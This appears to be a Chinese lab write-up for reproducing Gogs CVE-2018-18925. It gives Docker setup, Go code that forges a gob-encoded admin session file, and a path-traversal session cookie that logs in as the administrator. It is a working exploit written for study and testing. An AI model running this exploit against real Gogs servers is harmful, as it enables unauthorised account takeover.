 # Gogs 任意用户登录漏洞（CVE-2018-18925）

gogs是一款极易搭建的自助Git服务平台，具有易安装、跨平台、轻量级等特点，使用者众多。

其0.11.66及以前版本中，（go-macaron/session库）没有对sessionid进行校验，攻击者利用恶意sessionid即可读取任意文件，通过控制文件内容来控制session内容，进而登录任意账户。

参考链接：

- https://github.com/gogs/gogs/issues/5469
- https://xz.aliyun.com/t/3168
- https://www.anquanke.com/post/id/163575

## 环境启动

执行如下命令启动gogs：

```
docker-compose up -d
```

环境启动后，访问`http://your-ip:3000`，即可看到安装页面。安装时选择sqlite数据库，并开启注册功能。

安装完成后，需要重启服务：`docker-compose restart`，否则session是存储在内存中的。

## 漏洞利用

使用Gob序列化生成session文件：

```go
package main

import (
    "bytes"
    "encoding/gob"
    "encoding/hex"
    "fmt"
    "io/ioutil"
    "os"
)

func EncodeGob(obj map[interface{}]interface{}) ([]byte, error) {
    for _, v := range obj {
        gob.Register(v)
    }
    buf := bytes.NewBuffer(nil)
    err := gob.NewEncoder(buf).Encode(obj)
    return buf.Bytes(), err
}

func main() {
    var uid int64 = 1
    obj := map[interface{}]interface{}{"_old_uid": "1", "uid": uid, "uname": "root"}
    data, err := EncodeGob(obj)
    if err != nil {
        fmt.Println(err)
    }
    err = ioutil.WriteFile("data", data, os.O_CREATE|os.O_WRONLY)
    if err != nil {
        fmt.Println(err)
    }
    edata := hex.EncodeToString(data)
    fmt.Println(edata)
}
```

然后注册一个普通用户账户，创建项目，并在“版本发布”页面上传刚生成的session文件：

![](1.png)

通过这个附件的URL，得知这个文件的文件名：`./attachments/2eb7f1a2-b5ec-482e-a297-15b625d24a10`。

然后，构造Cookie：`i_like_gogits=../attachments/2/e/2eb7f1a2-b5ec-482e-a297-15b625d24a10`，访问即可发现已经成功登录id=1的用户（即管理员）：

![](2.png)

完整的利用过程与原理，可以阅读参考链接中的文章。
